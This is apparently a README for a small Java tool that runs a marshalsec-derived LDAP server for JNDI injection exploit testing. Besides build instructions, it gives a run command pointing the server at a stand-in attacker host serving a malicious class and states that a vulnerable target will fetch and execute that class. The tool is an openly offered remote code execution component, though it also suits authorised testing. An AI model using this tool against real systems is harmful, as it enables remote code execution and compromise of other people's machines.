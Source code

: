 This is a package that builds the minimal subset of [marshals](https://github.com/mbechler/marshalsec) LDAPServer for JDNI exploit testing.

Build:
mvn package

Run:
java -jar target/ldap-server.jar http://attacker.some.com:1234/#bad <port>

The default port is 1805.
http://attacker.some.com:1234/bad.class should be reachable by the attacked.
If vulnerable, the attacked will execute the class.



